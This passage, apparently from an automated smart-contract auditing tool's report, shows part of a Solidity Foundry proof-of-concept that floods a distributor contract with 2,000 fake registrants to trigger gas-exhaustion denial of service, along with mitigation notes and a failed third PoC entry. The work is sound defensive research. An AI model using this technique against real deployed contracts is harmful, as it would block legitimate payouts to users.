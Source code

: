 ```solidity
            (bool success, bytes memory data) = address(distributor).call(abi.encodeWithSelector(distributor.distribute.selector));
            require(success, "Distribution failed in normal operation");
        }

        // --- Vulnerable Scenario: Gas Limit Exhaustion ---
        // Register a very large number of participants (simulate hundreds or thousands).
        uint256 largeCount = 2000; // This value simulates a scenario where looping over participants may exceed the block gas limit.
        for (uint256 i = 0; i < largeCount; i++) {
            // Generate pseudo-random addresses based on the loop index.
            address fakeParticipant = address(uint160(uint256(keccak256(abi.encodePacked(i, block.timestamp)))));
            // Use vm.prank() to simulate registration from the fake participant.
            vm.prank(fakeParticipant);
            distributor.register();
        }

        // Attempt to call distribute() again.
        // To simulate gas exhaustion, we explicitly set a low gas limit.
        // In a real scenario, the transaction would likely run out of gas naturally.
        (bool success, ) = address(distributor).call{gas: 500_000}(abi.encodeWithSelector(distributor.distribute.selector));
        require(!success, "Distribution unexpectedly succeeded with large participant list");

        /*
            Educational Explanation:
            The vulnerability arises because the distribute() function processes an array of participants in a single transaction.
            When the array becomes very large, the total gas required for the loop exceeds the block gas limit,
            leading to a denial of service (DoS) where valid distributions cannot be processed.
            
            Mitigation Techniques:
            1. Use a batched distribution mechanism. Process the distribution in smaller chunks across multiple transactions.
            2. Optimize gas usage within the loop, or avoid unbounded loops in functions that run on-chain.
            3. Consider off-chain computation or event-based mechanisms for large data sets.
        */
    }
}
```

---

### PoC #3: business_logic

**File:** /Users/advait/Desktop/NTU/fyp-fr/exploit/src/test/PoC_unknown_1742490809.sol

**Execution:** ❌ FAILED after 2 fix attempts
